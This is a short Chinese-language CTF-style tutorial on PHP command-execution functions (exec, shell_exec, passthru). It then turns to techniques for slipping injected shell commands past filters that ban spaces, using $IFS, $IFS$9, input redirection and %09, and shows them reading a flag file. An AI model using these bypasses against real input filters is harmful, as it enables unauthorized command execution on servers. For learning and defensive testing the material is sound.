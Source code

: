 ### exec函数
`exec ( string $command [, array &$output [, int &$return_var ]] ) : string`
 exec() 执行 command 参数所指定的命令。
```php
<?php echo exec("whoami"); ?>
```
<br/>

### shell_exec函数
` shell_exec ( string $cmd ) : string`
通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回（当 PHP 运行在 安全模式 时，不能使用此函数。 ）
```php
<?php echo shell_exec('whoami'); ?>
```
注：反引号 \` \` 实际上就是调用该函数
<br/>

### passthru函数
` passthru ( string $command [, int &$return_var ] ) : void`
执行外部程序并且显示原始输出
```php
<?php passthru("whoami") ?>
```
<br/>

## 绕过姿势
### 空格绕过
在ban掉空格的情况下，可以使用字符进行替换
- `<` 重定向
- `$IFS$9`  $9只是当前系统shell进程的第九个参数的持有者，它始终为空字符串
- `${IFS}`
- `%09`
<br/>

```PHP
root@gnq:~# cat<flag.txt 
flag{2333333_test_file}

root@gnq:~# cat${IFS}$1flag.txt
flag{2333333_test_file}

root@gnq:~# cat${IFS}$9flag.txt
flag{2333333_test_file}

root@gnq:~# cat${IFS}flag.txt
flag{2333333_test_file}
```
%09绕过
![](09.png)
